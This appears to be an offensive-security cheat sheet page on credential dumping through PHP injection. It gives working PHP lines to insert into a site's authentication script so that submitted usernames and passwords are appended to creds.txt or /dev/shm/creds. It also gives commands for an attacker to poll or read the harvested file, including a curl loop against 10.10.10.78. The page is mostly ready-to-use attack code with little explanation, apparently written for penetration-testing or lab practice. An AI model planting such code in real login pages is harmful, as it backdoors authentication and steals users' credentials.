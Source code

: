 ```yaml
---
icon: key-skeleton
---
```


# Credential Dumping

{% hint style="info" %}
<mark style="color:red;">**`File-based Credentials Dumping via PHP Injection`**</mark>

<mark style="color:purple;">This technique involves modifying any</mark> <mark style="color:orange;">**`authentication-handling`**</mark> <mark style="color:purple;">PHP file to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**log**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">user credentials to a file on the server.</mark>

* <mark style="color:purple;">Add the next line after</mark> <mark style="color:orange;">**`<?php`**</mark><mark style="color:purple;">:</mark>&#x20;

{% code overflow="wrap" %}
```php
file_put_contents("creds.txt", $_POST['log']." - ".$_POST['pwd'], FILE_APPEND);
```
{% endcode %}

* <mark style="color:purple;">The attacker can continuously check the</mark> <mark style="color:orange;">**`creds.txt`**</mark> <mark style="color:purple;">file for new data using a command like this:</mark>

{% code overflow="wrap" %}
```sh
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/creds.txt
```
{% endcode %}

***

<mark style="color:red;">**`Memory-based Credentials Dumping via PHP Injection`**</mark>

<mark style="color:purple;">This method involves injecting PHP code into an authentication PHP script to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**capture login credentials**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and write them to a</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**temporary memory file**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(</mark><mark style="color:orange;">**`/dev/shm`**</mark><mark style="color:purple;">).</mark>

* <mark style="color:purple;">The following code to capture the</mark> <mark style="color:orange;">**`$_REQUEST`**</mark> <mark style="color:purple;">data (which includes the</mark> <mark style="color:orange;">**`$_POST`**</mark> <mark style="color:purple;">data from the login form) and write it to a file:</mark>

{% code overflow="wrap" %}
```php
<?php
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/creds", "a");
fwrite($fff, $rrr);
fclose($fff);
```
{% endcode %}

* <mark style="color:purple;">Just</mark> <mark style="color:orange;">**`cat`**</mark> <mark style="color:purple;">the file:</mark>

```sh
cat creds
```
{% endhint %}
